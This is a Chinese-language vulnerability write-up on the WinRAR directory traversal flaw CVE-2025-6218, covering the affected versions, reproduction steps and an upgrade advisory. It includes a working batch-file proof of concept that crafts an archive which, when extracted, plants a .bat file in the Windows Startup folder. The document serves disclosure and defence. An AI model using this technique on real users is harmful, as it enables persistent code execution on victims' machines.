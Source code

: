 **漏洞介绍**



![图片](WinRAR%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E(CVE-2025-6218).assets/640.webp)



WinRAR是WinRAR公司的一款文件压缩器。该产品支持RAR、ZIP等格式文件的压缩和解压等。

WinRAR存在路径遍历漏洞，该漏洞源于处理存档文件路径不当，可能导致目录遍历和远程代码执行。





**0x02影响版本**



WinRAR < 7.12

![图片](WinRAR%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E(CVE-2025-6218).assets/640-1751506068826-2.webp)





**0x03漏洞复现**



1.安装winrar漏洞版本

![图片](WinRAR%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E(CVE-2025-6218).assets/640-1751506068826-3.webp)



2.对漏洞进行复现

 **POC** 

```

@echo off
title CVE-2025-6218 POC
echo calc.exe > POC.bat
:: Assumes that two directories up from the current working directory corresponds to the user's home directory (%USERPROFILE%)
"C:\Program Files\WinRAR\WinRAR.exe" a -ap" \.. \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\" %~dp0CVE-2025-6218.zip POC.bat
echo.
if errorlevel 1 (
    echo [!] Failed to create POC.
) else (
    echo [+] CVE-2025-6218.zip created successfully!
)
echo.
del POC.bat
pause
```

运行批处理文件，成功echo文件

![图片](WinRAR%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E(CVE-2025-6218).assets/640-1751506068826-4.webp)





 通过查看写入文件，判断漏洞复现成功

![图片](WinRAR%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E(CVE-2025-6218).assets/640-1751506068826-5.webp)







**0x04修复建议**



目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

用户应尽快升级到WinRAR 7.12或更高版本，以修复该漏洞。

**建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！**           

```
https://www.win-rar.com/download.html?&L=0
```